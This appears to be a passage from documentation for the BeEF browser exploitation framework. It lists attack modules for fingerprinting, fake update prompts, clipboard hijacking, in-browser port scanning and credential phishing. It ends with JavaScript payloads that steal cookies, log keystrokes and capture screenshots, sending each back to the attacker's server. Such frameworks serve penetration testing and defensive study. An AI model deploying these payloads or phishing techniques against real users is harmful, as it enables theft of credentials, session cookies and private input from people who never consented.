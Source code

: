 ## Core Modules

### Browser Information
- **Get Browser Details**: Collect browser version, plugins, screen resolution
- **Detect Software**: Identify installed software and browser extensions
- **Fingerprint Browser**: Create unique browser fingerprints
- **Get System Info**: Gather operating system details

### Social Engineering
- **Fake Flash Update**: Present fake Flash update prompts
- **Fake Notification Bar**: Display fake browser notifications
- **Create Alert Dialog**: Generate convincing alert boxes
- **Clipboard Hijack**: Access and modify clipboard contents

### Network Reconnaissance
- **Internal Network Fingerprinting**: Scan internal network ranges
- **Port Scanner**: Perform port scans from victim's browser
- **Protocol Scanner**: Detect available network protocols
- **Network Discovery**: Map network topology and services

### Credential Harvesting
- **Pretty Theft**: Create convincing login prompts
- **Simple Hijacker**: Capture form submissions
- **Clippy**: Implement fake assistants for credential theft
- **TabNabbing**: Perform tab-based phishing attacks

## Advanced Attack Modules

### Browser Exploits
```javascript
// Example: Get cookies
beef.execute(function() {
    beef.net.send('/modules/host/get_cookie', 0, 'cookies=' + document.cookie);
});

// Example: Keylogger
beef.execute(function() {
    var keys = '';
    document.addEventListener('keypress', function(e) {
        keys += String.fromCharCode(e.which);
        if (keys.length > 50) {
            beef.net.send('/modules/host/keylogger', 0, 'keys=' + keys);
            keys = '';
        }
    });
});

// Example: Screenshot
beef.execute(function() {
    html2canvas(document.body).then(function(canvas) {
        var imgData = canvas.toDataURL();
        beef.net.send('/modules/host/screenshot', 0, 'screenshot=' + imgData);
    });
});
```
